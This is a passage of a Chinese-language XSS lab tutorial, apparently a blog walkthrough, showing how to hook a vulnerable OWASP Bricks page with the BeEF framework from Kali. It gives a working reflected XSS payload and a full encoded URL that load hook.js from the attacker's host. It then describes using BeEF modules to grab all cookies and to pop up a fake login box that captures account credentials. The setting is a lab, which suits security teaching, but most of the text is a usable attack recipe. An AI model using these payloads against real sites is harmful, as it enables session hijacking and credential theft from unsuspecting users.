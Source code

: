 这时候，只要我们的鼠标移动到input框，即可触发攻击，这是因为在JavaScript中，`onmouseover`将鼠标指针移动到图像上时执行 JavaScript。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822160805.png)



## BeEF框架示例

在kali中启动`beef-xss`，下面是hook.js的脚本

```
http://10.4.7.7:3000/hook.js
```

打开OWASP TOP 10访问地址并进入相关网页

```
http://10.4.7.5/owaspbricks/content-2/index.php?user=harry
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823151228.png)

payload

```
<script src=http://10.4.7.7:3000/hook.js></script>
```

完整的URL

```
http://10.4.7.5/owaspbricks/content-2/index.php?user=harry%3Cscript%20src=http://10.4.7.7:3000/hook.js%3E%3C/script%3E
```

按下回车之后，页面提示用户不存在

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823151354.png)

但是查看BeEF的页面可以看到，已经有结果了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823151503.png)

可以通过BeEF提供的各个功能模板攻击目标，可以看到在`Commands`下面提供了非常多的功能，比如Get All Cookies，见名知意，就是获取所有网站的Cookie信息。

通过该工具我们可以构造一个弹出输入账号密码的提示框，所有参数配置完成之后，点击`execute`来执行。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823152913.png)

执行完成之后回到存在漏洞的网页，看到多了一个弹框。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823153222.png)

如果用户没有任何怀疑的输入账号密码，那么我们就能够获取到账号信息。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210823153426.png)

除了社工库以外，还有其他很多模块需要研究。

